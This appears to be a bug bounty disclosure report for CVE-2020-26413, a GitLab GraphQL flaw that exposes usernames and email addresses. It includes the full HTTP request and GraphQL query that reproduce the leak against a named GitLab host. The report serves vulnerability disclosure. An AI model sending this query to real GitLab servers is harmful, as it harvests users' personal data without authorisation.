## Title
Gitlab User enumeration and user email disclosure via Graphql API

## Summary
An issue has been discovered in GitLab CE/EE affecting all versions starting from 13.4 before 13.6.2. Information disclosure via GraphQL results in user email being unexpectedly visible.

## Steps To Reproduce
1. Request
```
GET /api/graphql HTTP/1.1
Host: git.viriciti.com
Connection: close
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.128 Safari/537.36
Content-Type: application/json
Content-Length: 214

{"query":"{\nusers {\nedges {\n  node {\n    username\n    email\n    avatarUrl\n    status {\n      emoji\n      message\n      messageHtml\n     }\n    }\n   }\n  }\n }","variables":null,"operationName":null}
```
2.See email data

## Image
{F1628232}

## References:
https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2020-26413
https://gitlab.com/gitlab-org/cves/-/blob/master/2020/CVE-2020-26413.json

## Impact
GitLab user email Information disclosure